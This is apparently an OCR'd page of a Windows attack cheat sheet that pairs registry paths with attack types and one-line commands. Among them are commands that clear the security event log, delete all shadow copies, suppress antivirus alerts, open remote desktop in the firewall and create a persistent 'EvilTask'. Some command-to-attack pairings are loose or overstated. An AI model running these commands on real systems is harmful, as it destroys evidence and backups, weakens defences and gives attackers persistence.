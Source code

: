 ### Windows Update Control
**Registry Path:** `HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate`  
**Attacks:** Update Manipulation, Vulnerability Exploitation  
**Codes:** `wuauclt /detectnow`

### Windows Firewall Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy`  
**Attacks:** Firewall Bypass, Unauthorized Access  
**Codes:** `netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`

### Windows Security Center Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Security Center`  
**Attacks:** Security Alert Suppression, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Security Center /v AntiVirusDisableNotify /t REG_DWORD /d 1`

### Windows Event Viewer Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\EventViewer`  
**Attacks:** Log Manipulation, Evidence Tampering  
**Codes:** `wevtutil cl Security`

### Windows Performance Monitor Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Perflib`  
**Attacks:** System Monitoring, Data Theft  
**Codes:** `logman create counter EvilMonitor -o "C:\evil.log" -f csv -v mmddhhmm -c "\Processor(_Total)\% Processor Time"`

### Windows Power Configuration Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Power`  
**Attacks:** Energy Consumption Manipulation, Denial of Service  
**Codes:** `powercfg /hibernate off`

### Windows Credential Manager Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Cryptography\Protect\Providers\df9d8cd0-1501-11d1-8c7a-00c04fc297eb`  
**Attacks:** Credential Theft, Data Decryption  
**Codes:** `cmdkey /list`

### Windows Task Scheduler Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache`  
**Attacks:** Scheduled Task Manipulation, Persistence  
**Codes:** `schtasks /create /tn EvilTask /tr evil.exe /sc daily`

### Windows System Restore Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore`  
**Attacks:** System Restore Manipulation, Evidence Tampering  
**Codes:** `vssadmin delete shadows /all`

### Windows Remote Management Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WSMAN`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `winrm quickconfig -q`
